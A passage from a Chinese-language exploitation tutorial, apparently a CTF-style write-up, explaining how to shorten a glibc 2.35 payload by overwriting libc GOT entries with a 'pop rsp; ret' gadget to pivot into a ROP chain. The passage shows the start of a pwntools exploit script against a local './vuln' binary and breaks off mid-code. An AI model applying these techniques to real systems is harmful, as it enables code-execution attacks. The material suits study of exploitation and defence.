 

![](image-20231207155942859.png)



这样利用需要发送0x248 bytes的payload，有没有什么方法再缩短一下？请看下文。



### 0x02. fx1

上文我们是使用setcontext gadget来设置寄存器，这样的代价就是context buffer非常大。其实我们也完全可以通过ROP来做到这点。



将GOT1设置为gadget `pop rsp; ret`，然后将GOT0设置为GOT下面一点的位置，然后再里面布置好ROP chain即可。



完整代码：

```python
#!/usr/bin/env python3
# coding=utf8

import inspect

from pwn import *

context.log_level = 'debug'

local = 1

cn = process('./vuln')
libc = ELF("./libc-2.35.so")

def tobytes(x): return x.encode('latin1') if isinstance(x, str) else x
def sd(x): return cn.send(tobytes(x))
def sl(x): return cn.sendline(tobytes(x))
def sa(a, b): return cn.sendafter(tobytes(a), tobytes(b))
def sla(a, b): return cn.sendlineafter(tobytes(a), tobytes(b))
def rv(x=0x1000): return cn.recv(x)
def rl(): return cn.recvline()
def ru(x): return cn.recvuntil(tobytes(x))
def raddr(): return u64(cn.recvuntil(b'\n')[:-1].ljust(8, b'\x00'))
def raddrn(x): return u64(rv(x).ljust(8, b'\x00'))
def interact(): return cn.interactive()
def ss(s): return success(s)


def logsym(val):
    for line in inspect.getframeinfo(inspect.currentframe().f_back)[3]:
        m = re.search(r'\blogsym\s*\(\s*([A-Za-z_][A-Za-z0-9_]*)\s*\)', line)
    if m:
        varname = m.group(1)
        ss(f"{varname} => {hex(val)}")
    else:
        ss(hex(val))


############################################

context.arch = 'amd64'


class ROPgadget:
    def __init__(self, libc: ELF, base=0):
        if Path("./gadgets").exists():
            print(
```